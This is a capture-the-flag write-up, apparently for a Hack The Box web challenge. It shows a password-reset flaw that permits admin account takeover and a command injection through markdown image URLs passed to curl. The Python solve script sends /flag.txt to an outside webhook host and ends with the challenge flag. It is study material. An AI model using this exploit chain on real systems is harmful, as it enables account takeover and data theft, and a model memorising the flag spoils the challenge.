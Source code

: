 ```yaml
---
ai_date: 2025-04-27 05:17:07
ai_summary: Command injection vulnerability via Markdown parsing allows for file upload and flag retrieval
ai_tags:
  - cmd-inj
  - markdown
  - lfi
created: 2024-12-13T14:12
points: 775
updated: 2025-07-14T09:46
---
```


After using the app as intended, I think the solution is to reset someone else's password.

And after a bit of looking around this caught my attention.

```js [email-app/routes/index.js]
for (let item of response.data.items) {
    const recipients = item.Raw.To || [];
    if (recipients.some((recipient) => recipient === 'test@email.htb')) {
        mails.push(item);
    }
}
```

What if there are multiple recipients?

```python
url = "http://94.237.58.196:45364/reset-password/request"
response = requests.post(url, json={
    "email": ["test@email.htb", "admin@armaxis.htb"]
})
print(response.text) # User not found.
```

Sadly this didn't work.

And... I just realized that there is no email-token validation.

```js [challenge/routes/index.js]
const reset = await getPasswordReset(token);
if (!reset) return res.status(400).send("Invalid or expired token.");
```

Login Success.

## Command Injection?

There appears to be command injection.

```js [challenge/routes/index.js]
router.post("/weapons/dispatch", authenticate, async (req, res) => {;
  ...
  const { name, price, note, dispatched_to } = req.body;
  ...
    const parsedNote = parseMarkdown(note);
  ...
});
```

```js [challenge/markdown.js]
try {
    const fileContent = execSync(`curl -s ${url}`);
    const base64Content = Buffer.from(fileContent).toString('base64');
    return `<img src="data:image/*;base64,${base64Content}" alt="Embedded Image">`;
} catch (err) {
    console.error(`Error fetching image from URL ${url}:`, err.message);
    return `<p>Error loading image: ${url}</p>`;
}
```

The regex is simply matching anything that is of the format `![...](...)`, easy injection.

`curl` can be used to upload files via `curl -F "file=@path" url`

So to be elegant, I will not use random bash injection techniques.

## Solve

```python
import regex as re
import requests
s = requests.session()
t1 = "http://94.237.58.196:45364"  # main site
t2 = "http://94.237.58.196:44521"  # the email site

payload = '-F "file=@/flag.txt" https://webhook.site'

s.post(f"{t1}/reset-password/request", json={"email": "test@email.htb"})
token = re.search('Use this token to reset your password: ([0-9a-f]+)', s.get(t2).text).group(1)
s.post(f"{t1}/reset-password", json={"token": token, "newPassword": "password", "email": "admin@armaxis.htb"})

print(s.post(f"{t1}/login", json={"email": "admin@armaxis.htb", "password": "password"}).text)
print(s.post(f"{t1}/weapons/dispatch", json={"name": "hello", "price": 123, "note": f"![]({payload})", "dispatched_to": "admin@armaxis.htb"}).text)
```

```flag
HTB{l00k0ut_f0r_m4rkd0wn_LF1_1n_w1ld!_93d0b106b05aee3323f0425d988419d8}
```